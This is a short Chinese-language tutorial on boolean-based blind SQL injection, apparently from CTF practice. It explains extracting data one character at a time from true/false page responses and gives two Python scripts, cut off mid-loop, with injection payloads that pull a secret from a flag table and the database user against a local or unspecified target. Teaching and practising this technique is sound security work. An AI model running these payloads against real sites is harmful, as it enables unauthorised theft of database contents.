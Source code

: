 # 布尔盲注

布尔盲注，故名思意，与bool代数的运算有关，也就是和true和false有关


依赖于服务器给我们的响应，生活中这个漏洞相对来说还是比较多。


具体来说就是我们问服务器XXX第一个字符是不是a他告诉你不是，然后你问它第一个字符是不是b..................................一直推下去，相当于一个一个字符爆破出你想查询的信息。


主要靠的还是扎实的py脚本功夫


bool盲注依赖于脚本，这里给出几个bool盲注的脚本


这里都是二分法，遍历也行，但大家都学过时间复杂度，对吧。


```plain
import requests
import time
url = ""
files = {"file": "123456789"}
'''字段值'''
flag=''
for i in range(1,100):
low = 32
high = 128
mid = (low+high)//2
while (low < high):
time.sleep(0.06)
payload_flag = {
'username': "test\" or (ascii(substr((select secret from flag_tbl),{0},1))>{1}) #".format(i,mid),'password': 'test'}
r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
cookies={"PHPSESSID": "test1"})
print(payload_flag)
if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
low = mid +1
else:
high = mid
mid = (low + high) // 2
if(mid==32 or mid == 132):
break
flag +=chr(mid)
print(flag)
print(flag)

```



```plain
import requests
urltest="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),1,1))=114%23" #验证页面，通常为正确页面
URL=requests.get(urltest)
for j in range(1,10):
for i in range(33,125):
i=str(i)
j=str(j)
url="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),"+j+",1))="+i+"%23" #注入用于比对的URL
#print url
url=requests.get(url)
if url.text==URL.text:
```
